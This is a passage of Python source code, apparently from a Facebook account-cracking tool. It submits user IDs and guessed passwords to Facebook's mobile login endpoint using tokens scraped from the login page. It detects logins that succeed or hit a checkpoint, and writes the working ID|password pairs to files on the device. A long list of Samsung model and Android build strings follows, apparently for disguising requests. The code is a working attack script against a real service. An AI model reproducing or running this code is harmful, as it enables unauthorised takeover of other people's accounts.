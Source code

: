                         idpass ={"lsd":re.search(f'name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search(f'name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
                        complete = session.post(f'https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
                        Shahin=session.cookies.get_dict().keys()
                        if "c_user" in Shahin:
                                coki=session.cookies.get_dict()
                                kuki = (f";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
                                print(f'\r\r\033[1;32m [SOHAIL-OK] %s | %s'%(ids,pas))
                                open(f'/sdcard/SOHAIL-OK.txt', 'a').write(ids+'|'+pas+'\n')
                                #cek_apk(session,coki)
                                oks.append(ids)
                                break
                        elif 'checkpoint' in Shahin:
                                if 'y' in pcp:
                                        print(f'\r\r\x1b[38;5;126m [SOHAIL-CP] '+ids+' | '+pas+'\033[1;97m')
                                        open(f'/sdcard/SOHAIL-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                        cps.append(ids)
                                        break
                                else:
                                        break
                        else:
                                continue
        except requests.exceptions.ConnectionError:
                time.sleep(20)
        loop+=1
xxxxx=(f"GT-1015","GT-1020","GT-1030","GT-1035","GT-1040","GT-1045","GT-1050","GT-1240","GT-1440","GT-1450","GT-18190","GT-18262","GT-19060I","GT-19082","GT-19083","GT-19105","GT-19152","GT-19192","GT-19300","GT-19505","GT-2000","GT-20000","GT-200s","GT-3000","GT-414XOP","GT-6918","GT-7010","GT-7020","GT-7030","GT-7040","GT-7050","GT-7100","GT-7105","GT-7110","GT-7205","GT-7210","GT-7240R","GT-7245","GT-7303","GT-7310","GT-7320","GT-7325","GT-7326","GT-7340","GT-7405","GT-7550 5GT-8005","GT-8010","GT-81","GT-810","GT-8105","GT-8110","GT-8220S","GT-8410","GT-9300","GT-9320","GT-93G","GT-A7100","GT-A9500","GT-ANDROID","GT-B2710","GT-B5330","GT-B5330B","GT-B5330L","GT-B5330ZKAINU","GT-B5510","GT-B5512","GT-B5722","GT-B7510","GT-B7722","GT-B7810","GT-B9150","GT-B9388","GT-C3010","GT-C3262","GT-C3310R","GT-C3312","GT-C3312R","GT-C3313T","GT-C3322","GT-C3322i","GT-C3520","GT-C3520I","GT-C3592","GT-C3595","GT-C3782","GT-C6712","GT-E1282T","GT-E1500","GT-E2200","GT-E2202","GT-E2250","GT-E2252","GT-E2600","GT-E2652W","GT-E3210","GT-E3309","GT-E3309I","GT-E3309T","GT-G530H","GT-G930F","GT-H9500","GT-I5508","GT-I5801","GT-I6410","GT-I8150","GT-I8160OKLTPA","GT-I8160ZWLTTT","GT-I8258","GT-I8262D","GT-I8268""GT-I8505","GT-I8530BAABTU","GT-I8530BALCHO","GT-I8530BALTTT","GT-I8550E","GT-I8750","GT-I900","GT-I9008L","GT-I9080E","GT-I9082C","GT-I9082EWAINU","GT-I9082i","GT-I9100G","GT-I9100LKLCHT","GT-I9100M","GT-I9100P","GT-I9100T","GT-I9105UANDBT","GT-I9128E","GT-I9128I","GT-I9128V","GT-I9158P","GT-I9158V","GT-I9168I","GT-I9190","GT-I9192","GT-I9192I","GT-I9195H","GT-I9195L","GT-I9250","GT-I9300","GT-I9300I","GT-I9301I","GT-I9303I","GT-I9305N","GT-I9308I","GT-I9500","GT-I9505G","GT-I9505X","GT-I9507V","GT-I9600","GT-M5650","GT-N5000S","GT-N5100","GT-N5105","GT-N5110","GT-N5120","GT-N7000B","GT-N7005","GT-N7100","GT-N7100T","GT-N7102","GT-N7105","GT-N7105T","GT-N7108","GT-N7108D","GT-N8000","GT-N8005","GT-N8010","GT-N8020","GT-N9000","GT-N9505","GT-P1000CWAXSA","GT-P1000M","GT-P1000T","GT-P1010","GT-P3100B","GT-P3105","GT-P3108","GT-P3110","GT-P5100","GT-P5110","GT-P5200","GT-P5210","GT-P5210XD1","GT-P5220","GT-P6200","GT-P6200L","GT-P6201","GT-P6210","GT-P6211","GT-P6800","GT-P7100","GT-P7300","GT-P7300B","GT-P7310","GT-P7320","GT-P7500D","GT-P7500M","SAMSUNG","LMY4","LMY47V","MMB29K","MMB29M","LRX22C","LRX22G","NMF2","NMF26X","NMF26X;","NRD90M","NRD90M;","SPH-L720","IML74K","IMM76D","JDQ39","JSS15J","JZO54K","KOT4","KOT49H","KOT4SM-T310","KTU84P","SM-A500F","SM-A500FU","SM-A500H","SM-G532F","SM-G900F","SM-G920F","SM-G930F","SM-G935","SM-G950F","SM-J320F","SM-J320FN","SM-J320H","SM-J320M","SM-J510FN","SM-J701F","SM-N920S","SM-T111","SM-T230","SM-T231","SM-T235","SM-T280","SM-T311","SM-T315","SM-T525","SM-T531","SM-T535","SM-T555","SM-T561","SM-T705","SM-T805","SM-T820")
